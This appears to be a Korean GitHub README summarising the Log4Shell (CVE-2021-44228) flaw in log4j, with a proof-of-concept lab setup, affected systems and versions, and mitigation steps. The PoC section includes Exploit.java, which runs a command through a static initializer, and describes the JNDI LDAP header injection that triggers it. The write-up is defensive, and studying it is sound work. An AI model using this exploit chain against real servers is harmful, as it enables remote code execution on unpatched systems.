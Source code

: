 # log4j 취약점 정리

* log4j는 대부분의 java application에서 범용적으로 사용되는 로깅 라이브러리
* log4j에서 JNDI(JAVA Naming and Directory Interface)를 통하여 LDAP이나 DNS lookup 가능하며 제한이 없음
  * java class의 URI도 LDAP이나 DNS lookup의 리턴값으로 가져올 수 있음 

# PoC 환경
  * Victim : log4j 취약점을 갖은 서버
    * e.g.) log.info("X-Api-Version: {}, X-Api-Version);
    * listen port 8080
    * ![victim](image/victim_vuln_spring_server.png)
  * Attacker LDAP 조회 응답 서버
    * listen port 1389
    * ![ldapref](image/attacker_ldapref_server.png)
  * Attacker Exploit 코드를 가진 서버
    * listen port 8888
    * ![exploit](image/attacker_exploit_server.png)
    * Exploit.java
      ```java
        public class Exploit {
          public Exploit() {}
          static {
              try {
                  String[] cmds = System.getProperty("os.name").toLowerCase().contains("win")
                          ? new String[]{"cmd.exe","/c", "calc.exe"}
                          : new String[]{"touch","/tmp/log4j_vuln_cjcert"};
                  java.lang.Runtime.getRuntime().exec(cmds).waitFor();
              }catch (Exception e){
                  e.printStackTrace();
              }
          }
          public static void main(String[] args) {
              Exploit e = new Exploit();
          }
      }
      ```
# 실행
  * 취약점을 갖은 서버로 Http Header 내 X-Api-Version 키에 jdni ldap 서버의 주소와 java클래스 이름으로 보냄
    * ![exploit](image/attack_req.png)
  * 해당 서버 내 /tmp log4j_vuln_cjcert 파일 생성
    * ![attk_result](image/attack_result.png)

# 영향받는 시스템
  * Elasticsearch
  * Grails
  * Hadoop
  * Kafka
  * Kibana
  * Solr
  * Spark
  * Struts
  * Tapestry
  * Wicket

# 영향 받는 log4j2 버전
  * 2.0 <= Apache log4j <= 2.14.1

# 해결 방안
  * 2.0-beta9 ~ 2.10.0
    * JndLookup 클래스를 경로에서 제거 : zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

  * 2.10 ~ 2.14.1
    * log4j2.formatMsgNoLookups 또는 LOG4J_FORMAT_MSG_NO_LOOKUPS 환경변수를 true로 설정

  * 제조사 홈페이지를 통해 최신버전(2.15.0)으로 업데이트 적용[3]

# 참고
  * https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=36389
  * https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
  * https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j
  * https://github.com/christophetd/log4shell-vulnerable-app
